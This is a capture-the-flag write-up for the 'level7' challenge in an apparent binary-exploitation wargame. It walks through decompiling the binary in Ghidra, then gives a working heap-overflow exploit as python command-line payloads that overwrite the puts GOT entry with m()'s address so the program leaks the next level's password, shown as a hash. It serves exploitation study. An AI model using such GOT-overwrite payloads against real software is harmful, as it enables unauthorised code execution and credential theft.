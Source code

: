 get the binary on host
* `scp -P 4242 level7@192.168.56.107:./level7 ./binary/level7`

decompile using ghidras
```c
                undefined4 main(undefined4 param_1,int param_2)
                {
                    undefined4 *puVar1;
                    undefined4 uVar2;
                    undefined4 *puVar3;
                    
                    puVar1 = (undefined4 *)malloc(8);
                    *puVar1 = 1;
                    uVar2 = malloc(8);
                    puVar1[1] = uVar2;
                    puVar3 = (undefined4 *)malloc(8);
                    *puVar3 = 2;
                    uVar2 = malloc(8);
                    puVar3[1] = uVar2;
                    strcpy(puVar1[1],*(undefined4 *)(param_2 + 4));
                    strcpy(puVar3[1],*(undefined4 *)(param_2 + 8));
/*080485c2*/        uVar2 = fopen("/home/user/level8/.pass", "r");
/*080485eb*/        fgets(c,68,uVar2);
/*080485f0*/        puts("~~");
                    return 0;
                }
/*080484f4*/    void m(void)
                {
                    undefined4 uVar1;
                    
                    uVar1 = time(0);
                    printf("%s - %d\n",c, uVar1);
                    return;
                }
```

GOT Overwrite, replace puts return by function m\
We need addr of `m()`, `puts()` and `the offset for puVar1[1]`
* m addr ====> 0x0804 84f4
* puts addr => 0x08049928
* offset is 20

We overflow the first strpcy with the addr of puts so when strcpy is call the second time it will write m() addr. Doing so replace all futur call to puts() by call to m()

```
$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```